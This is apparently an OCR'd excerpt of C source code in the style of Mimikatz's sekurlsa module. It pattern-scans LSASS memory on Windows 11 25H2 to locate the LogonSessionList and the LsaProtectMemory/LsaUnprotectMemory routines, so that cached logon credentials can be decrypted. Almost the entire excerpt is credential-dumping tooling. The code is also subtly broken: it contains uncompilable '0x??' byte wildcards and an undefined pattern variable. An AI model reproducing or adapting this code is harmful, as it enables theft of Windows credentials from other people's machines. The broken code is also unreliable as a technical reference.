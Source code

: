 ```c
        {LogonSessionListPattern_25H2, sizeof(LogonSessionListPattern_25H2)},
        {LogonSessionListMask_25H2, sizeof(LogonSessionListMask_25H2)}
    };

    if (kull_m_memory_search(hLsass, &search, lsasrv->DllBase.address,
                            lsasrv->SizeOfImage, &result, 1)) {
        // Extract RIP-relative address
        LONG offset;
        if (kull_m_memory_copy(&offset, result + 3, sizeof(LONG))) {
            result = (PVOID)((ULONG_PTR)result + 7 + offset);
        }
    }

    return result;
}
```

## Encryption Keys (LsaProtectMemory / LsaUnprotectMemory)

### Key Acquisition

Credentials in LSASS are encrypted with 3DES using keys derived from LSASS initialization.

```c
typedef NTSTATUS (NTAPI *PLSA_PROTECT_MEMORY)(PVOID Buffer, ULONG BufferSize);

// Windows 11 25H2 key patterns
BYTE LsaProtectMemoryPattern_25H2[] = {
    0x48, 0x83, 0xEC, 0x??,                    // sub rsp, ??
    0x48, 0x8B, 0x05, 0x??, 0x??, 0x??, 0x??,  // mov rax, [g_pRandomKey]
    0x48, 0x85, 0xC0                            // test rax, rax
};

BOOL AcquireEncryptionKeys(PKUHL_M_SEKURLSA_CONTEXT cLsass) {
    PVOID pLsaProtectMemory = NULL;
    PVOID pLsaUnprotectMemory = NULL;

    // Search for LsaProtectMemory function
    pLsaProtectMemory = FindPattern(cLsass, &LsaProtectMemoryPattern_25H2);

    // Search for LsaUnprotectMemory function
    pLsaUnprotectMemory = FindPattern(cLsass, &LsaUnprotectMemoryPattern_25H2);

    if (pLsaProtectMemory && pLsaUnprotectMemory) {
        cLsass->pLsaProtectMemory = pLsaProtectMemory;
        cLsass->pLsaUnprotectMemory = pLsaUnprotectMemory;
        return TRUE;
    }

    return FALSE;
}
```
